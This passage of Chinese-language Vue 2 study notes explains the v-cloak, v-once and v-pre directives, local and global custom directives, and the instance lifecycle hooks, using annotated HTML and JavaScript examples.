1 本质是一个特殊属性，Vue实例创建完毕并接管容器后，会删掉v-cloak属性。
2 使用css配合v-cloak可以解决网速慢时页面展示出{{xxx}}的问题。

带有 v-cloak 属性的标签都隐藏, 这样在 vue 加载之前把 vue 模版元素隐藏
vue 加载后会将这个 v-cloak 属性删除, 这样就可以正常显示页面元素了

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-cloak指令</title>
		<style>
			[v-cloak]{
				display:none;
			}
		</style>
		<!-- 引入Vue -->
	</head>
	<body> 
		<!-- 准备好一个容器-->
		<div id="root">
			<h2 v-cloak>{{name}}</h2>
		</div>
		<script type="text/javascript" src="http://localhost:8080/resource/5s/vue.js"></script>
	</body>
	
	<script type="text/javascript">
		console.log(1)
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷'
			}
		})
	</script>
</html>
```


### 4 v-once指令

1 v-once所在节点在初次动态渲染后，就视为静态内容了。
2 以后数据的改变不会引起v-once所在结构的更新，可以用于优化性能。


只会读取一次data中的数据, 读取过一次后就不再刷新, 作为静态元素

示例:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-once指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<h2 v-once>初始化的n值是:{{n}}</h2>
			<h2>当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
</html>
```


### 5 v-pre指令

告诉 vue , 这个节点不需要编译, 加速整体的解析流程. 节点上加了 v-pre , 即使该节点上有插值语法 `{{ xxx }}` 指令语法 v-xxx 等 vue 指令, vue 也不会编译

1 跳过其所在节点的编译过程。
2 可利用它跳过：没有使用指令语法、没有使用插值语法的节点，会加快编译。


```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>v-pre指令</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<h2 v-pre>Vue其实很简单</h2>
			<h2 >当前的n值是:{{n}}</h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			data:{
				n:1
			}
		})
	</script>
</html>
```


## 16 自定义指令

### 一、定义语法：

#### (1) 局部指令

##### 方式1: 回调函数

```javascript
new Vue({
    el:'#root',
    data:{
        name:'尚硅谷',
        n:1
    },
    directives:{
        big(element,binding){
            // 这个方法会在 bind() 和 update() 中调用
            console.log('big',this) //注意此处的this是window
            // console.log('big')
            element.innerText = binding.value * 10
        }
    }
})
```

回调函数执行时机: 

1 指令与元素成功绑定时（一上来）。

2 指令所在的模板被重新解析时。


##### 方式2: 配置对象

```javascript
new Vue({
    el:'#root',
    data:{
        name:'尚硅谷',
        n:1
    },
    directives:{
        fbind:{
            //指令与元素成功绑定时（一上来）
            bind(element,binding){
                element.value = binding.value
            },
            
            //指令所在元素被插入页面时
            inserted(element,binding){
                element.focus()
            },
            //指令所在的模板被重新解析时
            update(element,binding){
                element.value = binding.value
            }
        }
    }
})
```


#### (2) 全局指令：

##### 方式1 : 配置对象

```javascript
Vue.directive('fbind',{
    //指令与元素成功绑定时（一上来）
    bind(element,binding){
        element.value = binding.value
    },
    //指令所在元素被插入页面时
    inserted(element,binding){
        element.focus()
    },
    //指令所在的模板被重新解析时
    update(element,binding){
        element.value = binding.value
    }
})
```


##### 方式2 : 回调函数

```javascript
Vue.directive('fbind',function(element,binding){
    // 相当于仅配置了 bind() 和 update()
    element.value = binding.value
}) 
```


### 二、配置对象

常用的3个回调

(1) bind：指令与元素成功绑定时调用。
(2) inserted：指令所在元素被插入页面时调用。
(3) update：指令所在模板结构被重新解析时调用。


### 三、备注：

1 指令定义时不加`v-`，但使用时要加`v-`；

2 指令名如果是多个单词，要使用 `kebab-case` 命名方式，不要用 `camelCase` 命名

3 注意指令的回调函数中的 this 是 window

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>自定义指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<h2>{{name}}</h2>
			<h2>当前的n值是：<span v-text="n"></span> </h2>
			<h2>放大10倍后的n值是：<span v-big-number="n"></span> </h2>
			<button @click="n++">点我n+1</button>
		</div>
	</body>
	
	<script type="text/javascript">
		Vue.config.productionTip = false

		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				n:1
			},
			directives:{
                // 'big-number':fuunction(element,binding){
				'big-number'(element,binding){
					console.log('big-number')
					element.innerText = binding.value * 10
                }
			}
		})
	</script>
</html>
```


### 示例

需求1：定义一个v-big指令，和v-text功能类似，但会把绑定的数值放大10倍。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>自定义指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<h2>{{name}}</h2>
			<h2>当前的n值是：<span v-text="n"></span> </h2>
			<h2>放大10倍后的n值是：<span v-big="n"></span> </h2>
			<button @click="n++">点我n+1</button>
			<hr/>
		</div>
	</body>
	
	<script type="text/javascript">
		Vue.config.productionTip = false
        
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				n:1
			},
			directives:{
				//big函数何时会被调用？1.指令与元素成功绑定时（一上来）。2.指令所在的模板被重新解析时。
				big(element,binding){
					console.log('big',this) //注意此处的this是window
					// console.log('big')
					element.innerText = binding.value * 10
				}
			}
		})
	</script>
</html>
```


需求2：定义一个v-fbind指令，和v-bind功能类似，但可以让其所绑定的input元素默认获取焦点。

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>自定义指令</title>
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<h2>{{name}}</h2>
			<h2>当前的n值是：<span v-text="n"></span> </h2>
			<button @click="n++">点我n+1</button>
			<hr/>
			<input type="text" v-fbind:value="n">
		</div>
	</body>
	
	<script type="text/javascript">
		Vue.config.productionTip = false
        
		new Vue({
			el:'#root',
			data:{
				name:'尚硅谷',
				n:1
			},
			directives:{
				fbind:{
					//指令与元素成功绑定时（一上来）
					bind(element,binding){
						element.value = binding.value
					},
					//指令所在元素被插入页面时
					inserted(element,binding){
                        // 必须要将元素放入页面(加入节点树)之后才能进行操作, 如获取焦点, 获取父元素
						element.focus()
					},
					//指令所在的模板被重新解析时
					update(element,binding){
						element.value = binding.value
					}
				}
			} 
		})
	</script>
</html>
```


原生 js 类比:

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>Document</title>
		<style>
			.demo{
				background-color: orange;
			}
		</style>
	</head>
	<body>
		<button id="btn">点我创建一个输入框</button>
		
		<script type="text/javascript" >
			const btn = document.getElementById('btn')
			btn.onclick = ()=>{
				const input = document.createElement('input')
				// bind() 的执行时机
				input.className = 'demo'
				input.value = 99
				input.onclick = ()=>{alert(1)}
				
				document.body.appendChild(input)
				// inserted() 的执行时机
               	
				input.focus()
				// input.parentElement.style.backgroundColor = 'skyblue'
				console.log(input.parentElement)
				
			}
		</script>
	</body>
</html>
```


## 17 生命周期

生命周期：
1 又名：生命周期回调函数、生命周期函数、生命周期钩子。
2 是什么：Vue在关键时刻帮我们调用的一些特殊名称的函数。
3 生命周期函数的名字不可更改，但函数的具体内容是程序员根据需求编写的。
4 生命周期函数中的this指向是vm 或 组件实例对象。


### 案例

需求: 文字透明度周期性

使用外部方法, 缺点是没有做到业务的内聚

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>引出生命周期</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		
		<div id="root">
			<h2 v-if="a">你好啊</h2>
			<!-- "{opacity}" 是 "{opacity:opacity}" 的简写 -->
			<h2 :style="{opacity}">欢迎学习Vue</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		 new Vue({
			el:'#root',
			data:{
				opacity:1
			},
		})

		//通过外部的定时器实现（不推荐）
		setInterval(() => {
			vm.opacity -= 0.01
			if(vm.opacity <= 0) vm.opacity = 1
		},16)
	</script>
</html>
```


使用 vue 提供的生命周期

mounted() Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted() 只会调用一次

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>引出生命周期</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<div id="root">
			<h2 :style="{opacity}">欢迎学习Vue</h2>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。
		
		 new Vue({
			el:'#root',
			data:{
				a:false,
				opacity:1
			},
			methods: {
				
			},
			//Vue完成模板的解析并把初始的真实DOM元素放入页面后（挂载完毕）调用mounted
			mounted(){
				console.log('mounted',this)
				setInterval(() => {
					this.opacity -= 0.01
					if(this.opacity <= 0) this.opacity = 1
				},16)
			},
		})
	</script>
</html>
```


### 生命周期示意图


### 示例

```html
<!DOCTYPE html>
<html>
	<head>
		<meta charset="UTF-8" />
		<title>分析生命周期</title>
		<!-- 引入Vue -->
		<script type="text/javascript" src="../js/vue.js"></script>
	</head>
	<body>
		<!-- 准备好一个容器-->
		<div id="root" :x="n">
			<h2 v-text="n"></h2>
			<h2>当前的n值是：{{n}}</h2>
			<button @click="add">点我n+1</button>
			<button @click="bye">点我销毁vm</button>
		</div>
	</body>

	<script type="text/javascript">
		Vue.config.productionTip = false //阻止 vue 在启动时生成生产提示。

		new Vue({
			el:'#root',
			// template:`
			// 	<div>
			// 		<h2>当前的n值是：{{n}}</h2>
			// 		<button @click="add">点我n+1</button>
			// 	</div>
			// `,
			data:{
				n:1
			},
			methods: {
				add(){
					console.log('add')
					this.n++
				},
				bye(){
					console.log('bye')
					this.$destroy()
				}
			},
			watch:{
				n(){
					console.log('n变了')
				}
			},
            
            // new Vue()  events lifecycle
            
			beforeCreate() {
                // 第一个生命周期
                // _data methods ... 都没有
                // vnode / node 都没有
				console.log('beforeCreate')
                console.log(this)
                debugger
			},
            
            // injections & reactivity
            
			created() {
                // 数据监测 和 数据代理   _data / computed / watch / methods /...  有了
                // vnode / node 都没有
				console.log('created')
                console.log(this)
                debugger
			},
            
            // compile template
            // if(option.el != null){
            //		if(options.template !=null){
            //			// template 中的内容完全代替 el
            //          vnode = render(template)
            //      }else{
            //			// el 自身及其子元素作为模版
            //			vnode = compile(el)
        	//		}
        	//	}
            //      
        	//	mount(element){
            //		if(options.template !=null){
            //          vnode = render(template)
            //      }else{
            //			vnode = compile(el)
        	//		}
			//  }
            
            // 如果没有 el ,也没有调用 mount , 则流程会停止
            
			beforeMount() {
                // 数据监测 和 数据代理   _data / computed / watch / methods /...  有了
                // vnode 有了
                // node 还没有
				console.log('beforeMount')
                console.log(this)
                debugger
                
                // 在这里对 dom 的操作都会在下一步替换真实dom后失效
			},

            // $el 真实 dom
            // $el = vnode.buildNode()
            // el.replaceWith($el)
			
            mounted() {
                // 数据监测 和 数据代理   _data / computed / watch / methods /...  有了
                // vnode / node 有了
				console.log('mounted')
                console.log(this)
                debugger
                
                console.log(this.$el)
                
                // setTimeout / setInterval() / ajax / ....
                
                // 在这里可以操作 dom , 并且有效, 但是不建议这样做
			},
            
            // 用户操作 / 主动调用 => dataChanged() ,进入更新流程
            
			beforeUpdate() {
                // 数据( _data )是新的, 页面还没有更新, 是旧的
				console.log('beforeUpdate')
                console.log(this)
                debugger
			},
            
            //  重新渲染 新vdom 和 旧的 vdom 进行比较, 根据比较的结果更新真实dom

            updated() {
                // 数据和页面一致
				console.log('updated')
                console.log(this)
                debugger
			},
            
            
            // 调用 vm.$destroy() 进入销毁流程, 
            
			beforeDestroy() {
				console.log('beforeDestroy')
                console.log(this)
                debugger
                
                // 资源清理
                // 此时 数据 方法 自定义事件监听 还有效
                // 关闭定时器 / 取消订阅 / 解绑自定义事件 ...
                
                // 注意这里可以调用方法, 可以更新数据, 但是更新数据不会进入 更新流程, 页面也就不会刷新了
			},
            
            // 销毁 vm
            // 注意销毁的是 vm , 不会影响 dom 树, 只是 vm 被销毁了, 不能再使用 vm 操作 dom 树了
            // 销毁监听器 watch / 子组件 / 自定义事件监听 (原生的dom事件无法销毁)
            
			destroyed() {
				console.log('destroyed')
                console.log(this)
                debugger
			},
		})
	</script>
</html>
```


1 初始化显示

beforeCreate()

created()


beforeMount()

mounted()


2 更新状态: this.xxx = value

beforeUpdate()

updated()


3 销毁 vue 实例: vm.$destory()

beforeDestory()

destoryed()


常用的生命周期方法

1 mounted(): 发送 ajax 请求, 启动定时器等异步任务

2 beforeDestory(): 做收尾工作, 如: 清除定时器

